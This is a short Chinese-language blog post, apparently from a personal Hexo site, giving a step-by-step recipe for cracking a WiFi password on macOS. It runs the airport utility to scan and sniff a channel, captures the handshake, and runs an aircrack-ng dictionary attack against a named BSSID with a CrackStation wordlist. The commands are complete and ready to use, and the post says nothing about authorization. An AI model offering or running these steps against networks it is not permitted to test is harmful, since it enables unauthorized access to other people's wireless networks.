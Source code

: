 ```yaml
---
title: macOS 下使用 aircrack-ng 破解 wifi 密码
id: 315002
date: 2017-06-20 18:19:54
tags: 
  - macos
  - wifi
---
```


## 查看周围 WiFi

```
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
```

## 查看本机的无线网卡设备

`ifconfig`


## 抓包

```
sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en1 sniff 6
```

en1是无线网卡设备；6是要破解wifi的CHANNEL。

使用手机连接 wifi,再断开, 获得的包放在/tmp

## 使用字典破解密码

```
sudo aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap
```

`/Users/zhang/Downloads/crackstation-human-only.txt`

-w：指定字典文件；－b：指定要破解的wifi BSSID


